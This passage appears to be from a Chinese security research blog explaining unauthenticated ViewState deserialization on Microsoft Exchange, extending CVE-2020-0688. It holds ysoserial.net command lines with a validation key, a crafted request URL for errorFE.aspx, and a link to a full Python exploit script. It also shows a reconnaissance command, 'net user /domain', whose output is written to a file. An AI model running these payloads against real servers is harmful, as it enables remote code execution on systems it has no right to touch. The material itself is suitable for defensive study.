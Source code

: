 通过浏览器访问该页面，返回结果中的__VIEWSTATEGENERATOR即为计算后的结果

### 2.不需要合法用户凭据的三种反序列化程序实现

(1)借助[ysoserial.net](https://github.com/pwntester/ysoserial.net)的TextFormattingRunProperties实现命令执行的Python代码

CVE-2020-0688中对应ysoserial.net的参数格式如下：

```
ysoserial.exe -p ViewState -g TextFormattingRunProperties -c "{command}" --validationalg="SHA1" --validationkey="CB2721ABDAF8E9DC516D621D8B8BF13A2C9E8689A25303BF" --generator="{generator}" --viewstateuserkey="{}"
```

由于我们的利用不需要合法用户的凭据，新的ysoserial.net参数格式为：

```
ysoserial.exe -p ViewState -g TextFormattingRunProperties -c "{command}" --validationalg="SHA1" --validationkey="{key}" --generator="{generator}"
```

参数说明如下：

- {command}对应我们要执行的命令
- {key}对应我们设置的validationKey
- {generator}对应要访问页面的VIEWSTATEGENERATOR

借助[ysoserial.net](https://github.com/pwntester/ysoserial.net)的TextFormattingRunProperties生成最终的VIEWSTATE数据后，拼接成以下格式：

```
https://{url}?__VIEWSTATEGENERATOR={generator}&__VIEWSTATE={out_payload}
```

发送GET数据包即可

下面举例进行说明：

选择Exchange默认的错误页面：`%ExchangeInstallPath%\FrontEnd\HttpProxy\owa\auth\errorFE.aspx`

`owa\auth\errorFE.aspx`对应的VIEWSTATEGENERATOR为`042A94E8`

借助[ysoserial.net](https://github.com/pwntester/ysoserial.net)的TextFormattingRunProperties生成最终的VIEWSTATE数据

最终访问的URL为：`https://<ip>/owa/auth/errorFE.aspx?__VIEWSTATEGENERATOR=042A94E8&__VIEWSTATE={out_payload}`

完整的实现代码已上传至github，地址如下：

https://github.com/3gstudent/Homework-of-Python/blob/master/ExchangeDeserializeShell-NoAuth-TextFormattingRunProperties.py

代码支持两个位置的反序列化执行，分别为默认存在的文件`%ExchangeInstallPath%\FrontEnd\HttpProxy\owa\auth\errorFE.aspx`和`%ExchangeInstallPath%\FrontEnd\HttpProxy\ecp\auth\TimeoutLogout.aspx`

**注：**

由于我们已获得了Exchange服务器的文件读写权限，这里可以将代码结果输出至指定文件进行查看，命令示例：`net user /domain >c:\test.txt`
